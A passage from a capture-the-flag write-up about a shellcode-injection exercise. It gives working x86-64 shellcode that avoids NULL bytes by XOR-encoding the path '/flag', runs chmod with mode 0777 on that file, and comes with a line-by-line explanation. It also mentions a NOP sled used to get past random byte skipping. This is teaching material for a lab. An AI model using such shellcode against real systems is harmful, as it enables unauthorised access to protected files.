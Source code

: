 Run it with `python injection.py`. This shellcode will grant you acces to the flag, so you'll be able to see it with `cat /flag`

> Since the challenge randomly skips up to 0x800 bytes in our shellcode, we put 0x800 `nop` instructions before our actual code injection. This way we'll be sure that our code will not be skipped.

## Level3

> **From the challenge description:** This challenge requires that your shellcode have no NULL bytes!

Replace the shellcode variable in the script of **level1** with the code below:

```python
shellcode = '''
    mov rax, 0x101010101010101
    push rax
    mov rax, 0x101010101010101 ^ 0x67616c662f /* the ^ is the xor operator */
    xor [rsp], rax

    xor rax, rax	/* remember to clear the upper bytes */
    mov al, 90		/* al is the lower 8 bits of rax */
    mov rdi, rsp
    mov si, 0777	/* si is the lower 16 bits of rsi */
    syscall

    xor rax, rax	/* remember to clear the upper bytes */
    mov al, 60
    syscall
'''
```

Run it with `python injection.py`. This shellcode will grant you acces to the flag, so you'll be able to see it with `cat /flag`

> In this shellcode, we use the XOR operator to modify the string `"/flag"`. First, we load a constant value `0x101010101010101` into rax and push it onto the stack. Then, we calculate `0x101010101010101 ^ 0x67616c662f` (which XORs the constant value with the byte representation of "/flag") and store the result in rax. This gives us an "encrypted" version of "/flag", which does not contain any NULL bytes.
>
> We then apply the XOR operation again on the value at `[rsp]` (that is `0x101010101010101`), modifying the "encrypted" constant to the original flag byte representation, `0x67616c662f`. This works because of the properties of the XOR operation: `constant ^ flag = encrypted_flag`, and then `encrypted_flag ^ constant = flag`. 
> In this way, we were able to store the flag path on the stack without having any NULL bytes in our instructions.
>
> Next, we proceed with the chmod syscall (code 90). We zero the upper part of rax, move 90 into `al` (the lower 8 bits of rax), and provide the modified string's address on the stack via rdi. We set the permissions (0777) in `si` (the lower 16 bits of rsi) and trigger the syscall.
>
> Finally, we perform the exit syscall (code 60) by zeroing the upper part of rax and moving 60 into `al`.
